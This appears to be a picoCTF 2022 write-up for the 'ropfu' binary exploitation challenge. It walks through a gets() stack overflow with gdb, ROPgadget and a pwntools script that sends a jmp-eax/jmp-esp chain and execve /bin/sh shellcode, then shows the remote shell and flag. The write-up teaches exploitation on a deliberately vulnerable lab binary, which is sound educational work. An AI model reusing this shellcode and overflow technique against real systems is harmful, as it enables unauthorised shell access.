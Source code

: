 # rpofu - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 300 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## rpofu Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/ropfu]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Partial RELRO, No canary and no PIE and also no NX.

So according to the challenge name/description, we know that we need to use [ROP](https://ctf101.org/binary-exploitation/return-oriented-programming/).

Let's see what is the offset between ```buf``` to ```EIP``` using ```gdb```.
```asm
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/ropfu/vuln 
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
AAAAAAAA

gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x80e7000-0x8109000), permission=rwx
  0x80e8330 - 0x80e833a  →   "AAAAAAAA\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffd050 - 0xffffd058  →   "AAAAAAAA" 
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x8049dd0 in vuln; saved eip = 0x8049e2a
 called by frame at 0xffffd0a0
 Arglist at 0xffffd068, args: 
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  eip at 0xffffd06c
```

```buf``` locate on ```0xffffd050``` and ```EIP``` on ```0xffffd06c``` the offset is ```28``` bytes.

Let's set a breakpoint on ```ret``` instruction on ```vuln``` function:
```asm
gef➤  disassemble vuln 
Dump of assembler code for function vuln:
   0x08049d95 <+0>:	endbr32 
   0x08049d99 <+4>:	push   ebp
   0x08049d9a <+5>:	mov    ebp,esp
   0x08049d9c <+7>:	push   ebx
   0x08049d9d <+8>:	sub    esp,0x14
   0x08049da0 <+11>:	call   0x8049c70 <__x86.get_pc_thunk.bx>
   0x08049da5 <+16>:	add    ebx,0x9b25b
   0x08049dab <+22>:	sub    esp,0xc
   0x08049dae <+25>:	lea    eax,[ebx-0x30ff8]
   0x08049db4 <+31>:	push   eax
   0x08049db5 <+32>:	call   0x8051d40 <puts>
   0x08049dba <+37>:	add    esp,0x10
   0x08049dbd <+40>:	sub    esp,0xc
   0x08049dc0 <+43>:	lea    eax,[ebp-0x18]
   0x08049dc3 <+46>:	push   eax
   0x08049dc4 <+47>:	call   0x8051b70 <gets>
   0x08049dc9 <+52>:	add    esp,0x10
   0x08049dcc <+55>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08049dcf <+58>:	leave  
   0x08049dd0 <+59>:	ret    
End of assembler dump.
gef➤  b * 0x08049dd0
Breakpoint 1 at 0x8049dd0
```

Now, Let's see the registers at this moment:
```asm
───────────────────────────────────── registers ───────────────────────────────────────────────────────
$eax   : 0xffffd050  →  "AAAAAAAA"
$ebx   : 0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$ecx   : 0x080e5300  →  <_IO_2_1_stdin_+0> mov BYTE PTR [edx], ah
$edx   : 0xffffd058  →  0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$esp   : 0xffffd06c  →  0x08049e2a  →  <main+89> mov eax, 0x0
$ebp   : 0xffffd088  →  0x00000000
$esi   : 0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$edi   : 0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$eip   : 0x08049dd0  →  <vuln+59> ret 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 

```

We can see ```eax``` register point to the start of the buffer, and by using ```vmmap``` we can see the address of the ```buf``` (which is ```0xffffd050```) on the executable stack area:
```asm
gef➤  vmmap 
[ Legend:  Code | Heap | Stack ]
Start      End        Offset     Perm Path
0x08048000 0x080e3000 0x00000000 r-x /pictoctf2022/binary_exploitation/ropfu/vuln
0x080e3000 0x080e5000 0x0009a000 r-x /pictoctf2022/binary_exploitation/ropfu/vuln
0x080e5000 0x080e7000 0x0009c000 rwx /pictoctf2022/binary_exploitation/ropfu/vuln
0x080e7000 0x08109000 0x00000000 rwx [heap]
0xf7ff8000 0xf7ffc000 0x00000000 r-- [vvar]
0xf7ffc000 0xf7ffe000 0x00000000 r-x [vdso]
0xfffdd000 0xffffe000 0x00000000 rwx [stack]
```

So we can write the shellcode right after the return address, and on ```buf``` we can jump to this area.

First, Let's find the gadget using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to jump to ```eax``` which is the start of the ```buf```:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/ropfu]
└──╼ $ ROPgadget --binary vuln | grep "jmp eax"
0x08057c12 : adc al, 0x5e ; pop edi ; jmp eax
0x0807162d : adc al, 0x89 ; fcomp dword ptr [ebx + 0x5e] ; pop edi ; pop ebp ; jmp eax
0x08085878 : adc al, ah ; mov eax, dword ptr [ecx + eax*4] ; jmp eax
0x0808632a : adc al, ah ; mov eax, dword ptr [edi + eax*4 - 0x15c0] ; jmp eax
0x08085538 : adc al, ah ; mov eax, dword ptr [edi + eax*4 - 0x1640] ; jmp eax
0x0808628a : adc al, ah ; mov eax, dword ptr [edi + eax*4 - 0x16c0] ; jmp eax
...
0x0805334b : jmp eax
...

```

We can see the gadget ```0x0805334b : jmp eax``` and that's exactly what we need.

Now, We need to find a command to jump to address after the return address.

```call``` instruction pushes the current value of the ```EIP``` register (return address) to the stack + does the call to ```vuln``` function, 
```ret``` instruction pops the return address(that call pushed) from the top of the stack (```ESP``` register points there) and writes it in the ```EIP``` register.

So ```jmp ESP``` will jmp to ```ESP``` location where ```ESP``` is pointing at the location below the return address which is where our shellcode is.

The instruction ```jmp ESP``` is ```\xFF\xE4``` ([https://defuse.ca/online-x86-assembler.htm#disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)), you can understand ```ESP``` contains the return address [here](https://pages.cs.wisc.edu/~remzi/Classes/354/Fall2012/Handouts/Handout-CallReturn.pdf).

So Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./vuln')

if args.REMOTE:
    p = remote('saturn.picoctf.net', 57347)
else:
    p = process(elf.path)

# payload buffer
payload = b"\x90"*6 # nop sled
payload += b"\xFF\xE4" # jmp esp - jump to the shell code right after the return address
payload += b"\x90"*20 # nop sled
payload += p32(0x0805334b) # jmp eax - will jump to start of buf which jump again to the shell code right after the return address
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" # shell code

print(p.recvuntil('!'))
p.sendline(payload)
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/ropfu]
└──╼ $ python3 exp.py REMOTE
[*] '/pictoctf2022/binary_exploitation/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Opening connection to saturn.picoctf.net on port 57347: Done
b'How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!'
[*] Switching to interactive mode

$ ls
flag.txt
vuln
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_029ab653}
$  

```

And we get the flag ```picoCTF{5n47ch_7h3_5h311_029ab653}```.